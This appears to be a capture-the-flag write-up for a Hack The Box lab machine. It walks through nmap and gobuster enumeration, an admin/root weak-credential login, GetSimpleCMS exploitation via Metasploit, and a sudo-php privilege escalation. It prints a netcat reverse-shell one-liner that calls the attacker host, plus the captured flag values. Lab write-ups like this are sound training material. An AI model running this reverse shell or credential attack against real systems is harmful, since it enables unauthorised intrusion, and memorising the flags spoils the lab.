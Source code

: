 ############
Boxes Pwned
############



Getting Started - Knowledge check box
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

https://p.ip.fi/BrXY -- terminal logs that contain exploitation of the box using msfconsole (we get user level or non-root permissions here). 

https://p.ip.fi/5iip -- attack vm terminal logs that were used to listen to connections and get the compromised box to connect to us (to escalate privileges)


nmap scan
=========

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge/nmap-scans]
   └─$ nmap -sV --open 10.129.230.124 -oA nmap_scan
   Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 00:35 EDT
   Nmap scan report for 10.129.230.124
   Host is up (0.019s latency).
   Not shown: 998 closed tcp ports (reset)
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
   80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 7.06 seconds



nmap full scan
===================================

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge/nmap-scans]
   └─$ nmap -sV --open -p- -oA nmap_full_scan 10.129.230.124 -O
   Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 00:36 EDT
   Nmap scan report for 10.129.230.124
   Host is up (0.017s latency).
   Not shown: 65533 closed tcp ports (reset)
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
   80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
   Device type: general purpose|router
   Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
   OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
   OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
   Network Distance: 2 hops
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

   OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 17.57 seconds



Directory enumeration with gobuster
===================================

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge]
   └─$ gobuster dir -u http://10.129.230.124 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
   ===============================================================
   Gobuster v3.6
   by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
   ===============================================================
   [+] Url:                     http://10.129.230.124
   [+] Method:                  GET
   [+] Threads:                 10
   [+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
   [+] Negative Status codes:   404
   [+] User Agent:              gobuster/3.6
   [+] Timeout:                 10s
   ===============================================================
   Starting gobuster in directory enumeration mode
   ===============================================================
   /.hta                 (Status: 403) [Size: 279]
   /.htaccess            (Status: 403) [Size: 279]
   /.htpasswd            (Status: 403) [Size: 279]
   /admin                (Status: 301) [Size: 316] [--> http://10.129.230.124/admin/]
   /backups              (Status: 301) [Size: 318] [--> http://10.129.230.124/backups/]
   /data                 (Status: 301) [Size: 315] [--> http://10.129.230.124/data/]
   /index.php            (Status: 200) [Size: 5485]
   /plugins              (Status: 301) [Size: 318] [--> http://10.129.230.124/plugins/]
   /robots.txt           (Status: 200) [Size: 32]
   /server-status        (Status: 403) [Size: 279]
   /sitemap.xml          (Status: 200) [Size: 431]
   /theme                (Status: 301) [Size: 316] [--> http://10.129.230.124/theme/]
   Progress: 4750 / 4750 (100.00%)
   ===============================================================
   Finished
   ===============================================================

/admin works with weak credentials :  
**username:** admin  
**password:** root

Reference:  
https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=31745

.. image:: ../screenshots/boxes/getting-started-knowledge-check/admin-page.png



upgrade to better tty
===================================

.. code-block:: console

   python3 -c 'import pty; pty.spawn("/bin/bash")'



Not able to download LinEnum.sh script
===================================

initial approach : used wget to download the script from a python http server running on the attack VM, didn't work

.. code-block:: console

   www-data@gettingstarted:/home/mrb3n$ wget 10.10.15.44:8000/LinEnum.sh
   ...
   LinEnum.sh: Permission denied

another approach : even directly using wget to download the script from github doesnt work :

.. code-block:: console

   www-data@gettingstarted:/home/mrb3n$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
   ...
   wget: unable to resolve host address ‘raw.githubusercontent.com’

also tried LinPEAS script but no DNS resolution available.

*(Filler: We can attempt SSH reverse tunneling or hosting scripts via IP for offline transfer.)*



check which commands require the mrb3n to use sudo
===================================

.. code-block:: console

   www-data@gettingstarted:/home/mrb3n$ sudo -l
   User www-data may run the following commands on gettingstarted:
       (ALL : ALL) NOPASSWD: /usr/bin/php

Privilege escalation using PHP reverse shell:

.. code-block:: console

   sudo /usr/bin/php -r "system('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.44 8443 >/tmp/f');"



obtaining the user.txt flag
===================================

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge]
   └─$ msfconsole
   ...
   7002d65b149b0a4d19132a66feed21d8



obtaining the root.txt flag
===================================

Target VM:

.. code-block:: console

   www-data@gettingstarted:/home/mrb3n$ sudo /usr/bin/php -r "system('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.44 8443 >/tmp/f');"

Attack VM:

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/Nibbles]
   └─$ nc -nvlp 8443
   ...
   root@gettingstarted:~# cat root.txt
   f1fba6e9f71efb2630e6e34da6387842



We successfully obtained **user.txt** and **root.txt** by exploiting GetSimpleCMS RCE and using a `sudo misconfiguration` for privilege escalation.

